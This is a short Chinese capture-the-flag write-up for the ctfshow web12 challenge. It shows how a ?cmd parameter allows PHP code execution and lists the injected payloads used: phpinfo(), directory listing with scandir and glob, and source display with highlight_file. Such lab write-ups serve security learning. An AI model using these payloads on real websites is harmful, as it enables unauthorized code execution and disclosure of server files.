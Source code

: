 ## ctfshow web12
考察:命令执行
知识点:
```
glob() 函数返回匹配指定模式的文件名或目录。
举个例子:
glob("*") 匹配任意文件
glob("*.txt")匹配以txt为后缀的文件
```

查看网页源代码发现 ?cmd
![图片](https://user-images.githubusercontent.com/81904597/113653035-9822ae00-96c7-11eb-9fbe-2ee06d317b0c.png)
目测考察命令执行
输出一下phpinfo()
```
?cmd=phpinfo();
```
里面禁用了很多函数
![图片](https://user-images.githubusercontent.com/81904597/113653163-e172fd80-96c7-11eb-88c1-a5df058909e2.png)

查看一下目录的文件(两种方式)
```
?cmd=print_r(scandir('.'));
?cmd=print_r(glob("*"));
```
![图片](https://user-images.githubusercontent.com/81904597/113653282-1ed78b00-96c8-11eb-9319-97b2312427af.png)
利用下面的让代码显示一下即可
```
highlight_file()
show_source()
```
参考yu师傅博客:https://blog.csdn.net/miuzzx/article/details/104372662

[反序列化.pdf](https://github.com/Demodd/Demodd.github.io/files/6291477/default.pdf)
